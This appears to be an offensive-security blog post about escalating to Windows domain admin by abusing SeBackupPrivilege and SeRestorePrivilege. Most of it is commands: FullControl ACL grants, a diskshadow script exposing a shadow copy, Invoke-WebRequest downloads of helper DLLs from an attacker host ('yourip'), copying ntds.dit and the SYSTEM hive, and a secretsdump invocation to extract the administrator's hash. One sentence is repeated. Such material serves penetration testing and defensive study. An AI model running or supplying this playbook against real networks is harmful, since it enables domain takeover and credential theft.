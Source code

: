 [back](/)

### Glad to see you domain admin

What can domain users with "SeBackupPrivilege" and "SeRestorePrivilege" privileges do?

![Image](/img/sebackup_and_serestore/1.png)

![Image](/img/sebackup_and_serestore/2.png)

Such user can easily get the domain administrator access. Firstly, using these privileges, you can assign an ACL with the "FullControl" flag to any directory and any file in the system (does not apply to encrypted files by EFS), this means "full rights" to read and write.

```
Import-Module ./Acl-FullControl.ps1
Acl-FullControl -user FQDN\domainuser -path c:\users\administrator - get access to any path
```

However, the juiciest files SAM, SYSTEM, SECURITY and NTDS.DIT will remain inaccessible (despite what works "reg save HKLM...), even with full rights due to constant use. But using the diskshadow utility (functionality provided by the Volume Shadow Copy Service) will help you create a shadow copy of the local disk with ntds.dit, and further mimicking the backup program using WIN32 API calls will help move ndts.dit to your local drive. 

```
shad.txt: - do not forget to add spaces =)
_________

set context clientaccessible   
set context persistent   
begin backup   
add volume c: alias mydrive  
create  
expose %mydrive% z:  
_________

powershell.exe Invoke-WebRequest "http://yourip/shad.txt -OutFile ./shad.txt"
diskshadow.exe /s C:\temp\ntdscopy\shad.txt
```

![Image](/img/sebackup_and_serestore/5.png)

than

```
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll"
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll"

Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit - now u got ntds.git copy =)

reg save HKLM\system system.save
```

Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)

```
python secretsdump.py -ntds /tmp/ntds.dit -system /tmp/system.save LOCAL
```

Glad to see you domain admin =)

Everything you need is here:

[Abusing-backup-operators-group](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)

[Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)

[SeBackupPrivilegeCmdLets](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)